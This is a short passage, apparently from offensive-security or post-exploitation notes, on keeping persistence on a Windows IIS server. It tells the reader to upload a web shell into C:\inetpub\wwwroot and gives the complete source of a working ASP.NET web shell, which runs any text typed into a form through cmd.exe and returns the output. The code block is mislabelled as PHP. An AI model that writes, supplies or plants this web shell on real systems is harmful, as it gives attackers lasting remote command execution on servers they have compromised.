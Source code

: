 ### Persisting Through Existing Services

One way to maintain persistence is by uploading a web shell to the web server. We can create an `.aspx` shell and save it in the `C:\inetpub\wwwroot` directory.

```php
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="execute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```
